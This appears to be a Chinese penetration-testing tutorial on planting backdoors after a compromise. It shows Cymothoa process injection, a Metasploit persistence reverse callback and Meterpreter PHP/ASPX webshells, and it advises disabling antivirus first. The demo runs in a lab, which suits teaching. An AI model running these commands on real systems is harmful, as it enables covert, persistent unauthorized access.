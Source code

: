 在完成了提升权限后，我们就应该创建后门了，以维持对目标主机的控制权。这样一来，即使我们所利用的漏洞被补丁程序修复，还可以通过后门继续控制目标系统。


# 操作系统后门

## 1.Cymothoa后门
Cymothoa是一款可以将shellcode注入现有进程的后门工具，可以把shellcode伪装成常规程序

首先查看程序的PID（在linux系统下输入ps -aux命令，Windows系统下输入tasklist命令）<br />在Linux下<br />![](https://img-blog.csdnimg.cn/20200812211232623.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=FV0gl&originHeight=271&originWidth=821&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在Windows下<br />![](https://img-blog.csdnimg.cn/20200812211149780.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=RujzQ&originHeight=374&originWidth=788&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在使用Cymothoa时，需通过-p选项指定目标进程的PID，并通过-s选项指定shellcode的编号，shellcode的编号如图所示<br />![](https://img-blog.csdnimg.cn/20200812211543277.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=HpCCO&originHeight=401&originWidth=885&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

成功渗透目标主机后，就可以把Cymothoa的可执行程序复制到目标主机上，生成后门程序

例如使用PID为829的进程为宿主进程，选择第一类shellcode，指定payload服务端口为4444
```
cymothoa -p 829 -s 1 -y 4444
```

成功后连接目标主机后门
```
Nc -nvv 192.168.1.6 4444
```


## 2.Persistence后门
Persistence是一款使用安装自启动方式的持久性后门程序，可以利用它创建和注册文件。<br />首先输入`run persistence -h`查看所有用到的命令选项。

在此我已提前利用反弹型payload向对目标机进行渗透<br />![](https://img-blog.csdnimg.cn/20200812213652882.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=xtYkv&originHeight=516&originWidth=812&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

创建后门
```
run persistence -A -S -i 60 -p 4321 -r 192.168.1.18
A：自动启动payload程序
S：系统启动时自动加载
U：用户登录时自动启动
X：开机时自动加载
i：回连的时间间隔
P：监听反向链接端口号
r：目标机器IP地址
```
![](https://img-blog.csdnimg.cn/20200812220437841.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Y5oEN&originHeight=367&originWidth=798&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

创建成功，输入session可查看已经创建成功的会话

**知识点：**这个脚本需要在目标机上创建文件从而触发杀毒软件，建议运行前关闭杀毒软件。


# Web后门
Web后门泛指webshell，其实就是一段网页代码，包括ASP、ASP.NET、PHP、JSP等代码。Web后门能够给攻击者提供很多功能，例如执行命令、浏览文件、辅助提权、执行SQL语句、反弹shell等。<br />windoes系统下比较出名的莫过于“中国菜刀”还有很多代替“中国菜刀”的跨平台开源工具，例如“中国蚁剑”和cknife，均支持Mac，Windows和Linux。在kali下用的比较多的就是Weevely，Weevely支持的功能很强大，使用http头进行指令传输，唯一的缺点就是只支持PHP，其实metasploit框架中也自带了web后门，配合Meterpreter使用时，功能更强大。


## 1.PHP Meterpreter后门
在metasploit中，有一个名为PHP Meterpreter的payload，利用这个可以创建具有Meterpreter功能的PHP webshell步骤如下所示：

1. 使用msfvenom创建一个webshell.php
2. 上传webshell.php到目标服务器
3. 运行metasploit mulit-handler开始监听
4. 访问webshell.php页面
5. 获得反弹的metasploit shell

制作PHP Meterpreter

![](https://img-blog.csdnimg.cn/20200812223211785.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=XV8Qy&originHeight=125&originWidth=892&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

我在win7上搭建了phpstudy，将文件复制到phpstudy的www目录下<br />![](https://img-blog.csdnimg.cn/20200812224901368.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=nF3nN&originHeight=248&originWidth=429&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

启动msfconsole进行监听，配置以下命令<br />![](https://img-blog.csdnimg.cn/20200812223729675.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=NAtsK&originHeight=145&originWidth=768&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在win7上访问该网站<br />![](https://img-blog.csdnimg.cn/20200812225707452.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=josCI&originHeight=220&originWidth=359&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

回到MSF下可以看到服务端已经反弹成功<br />![](https://img-blog.csdnimg.cn/20200812225720129.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=AK5aF&originHeight=184&originWidth=816&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

最后使用sysinfo和getuid等命令渗透目标主机


## 2.Aspx Meterpreter后门
在攻击中使用Aspx Meterpreter后门的步骤与PHP Meterpreter的大概相同

调用模块<br />![](https://img-blog.csdnimg.cn/20200812230324675.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=lP9lD&originHeight=24&originWidth=393&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看需要设置的参数<br />![](https://img-blog.csdnimg.cn/2020081223035780.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Y5SLw&originHeight=551&originWidth=902&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置攻击机IP<br />![](https://img-blog.csdnimg.cn/20200812230451606.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=gEoUM&originHeight=71&originWidth=731&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置端口<br />![](https://img-blog.csdnimg.cn/20200812230715146.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=WNDlq&originHeight=52&originWidth=600&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

输入generate -h查看帮助命令<br />![](https://img-blog.csdnimg.cn/20200812230758198.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=QbLGo&originHeight=602&originWidth=846&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

生成个版本的shellcode命令如下<br />`generate -f asp   生成asp版的shellcode`<br />`generate -f aspx   生成aspx版的shellcode`

在这里我们使用aspx版的shellcode<br />![](https://img-blog.csdnimg.cn/20200812231203440.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=OdheE&originHeight=433&originWidth=883&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将内容保存为222.aspx，上传到win7的phpstudy的www目录下<br />![](https://img-blog.csdnimg.cn/20200812231747747.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=PT37T&originHeight=277&originWidth=537&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置监听<br />![](https://img-blog.csdnimg.cn/20200812231939910.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=Alxb7&originHeight=189&originWidth=732&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在win7上访问该网站<br />![](https://img-blog.csdnimg.cn/20200812232047874.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=oKi2q&originHeight=121&originWidth=393&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

回到MSF下可以看到服务端已经反弹成功<br />![](https://img-blog.csdnimg.cn/20200812232730206.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=VSFiU&originHeight=134&originWidth=805&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

最后使用sysinfo和getuid等命令渗透目标主机
